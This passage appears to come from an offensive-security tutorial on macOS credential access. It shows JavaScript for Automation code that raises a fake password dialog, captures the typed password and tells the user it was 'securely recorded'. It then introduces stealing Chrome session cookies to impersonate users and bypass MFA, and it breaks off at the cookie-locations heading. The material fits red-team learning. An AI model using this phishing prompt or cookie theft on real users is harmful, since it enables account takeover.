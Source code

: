```js
            defaultButton: 'OK',
            cancelButton: 'Cancel',
            withTitle: title,
            withIcon: icon,
            hiddenAnswer: true
        })

        if (prompt.buttonReturned === 'OK') {
            const userInput = prompt.textReturned
            app.displayAlert(`Password entered`, {
                message: `${fullName}, your password has been securely recorded.`,
                as: "informational"
            })
            return userInput  // This will be the result of the run() function
        }
    } catch (err) {
        if (err.errorNumber === -128) {
            app.displayAlert("Dialog cancelled", {
                message: `${fullName}, you cancelled the password entry.`,
                as: "warning"
            })
        } else {
            throw err
        }
    }
    return null  // Return null if cancelled or an error occurred
}

// Execute the function and store the result
const result = run()

// Display the result (be careful with this in a real scenario!)
if (result !== null) {
    app.displayDialog(`Debug: The entered password was "${result}"`)
}
```

## credential access via chrome cookies

browser cookies are a highly valuable vector for attackers. cookies contain session identifiers that allow users to stay logged in, so if an attacker [steals them](https://eitca.org/cybersecurity/eitc-is-wasf-web-applications-security-fundamentals/session-attacks/cookie-and-session-attacks/examination-review-cookie-and-session-attacks/how-can-an-attacker-steal-a-users-cookies-using-a-http-get-request-embedded-in-an-image-source/), they can impersonate the user without needing credentials. 

armed with valid session cookes, attackers can also [bypass MFA](https://www.techtarget.com/searchsecurity/definition/cookie-poisoning) because the system assumes the user has already completed the MFA process. let's see how we can steal some cookies!

### cookie locations
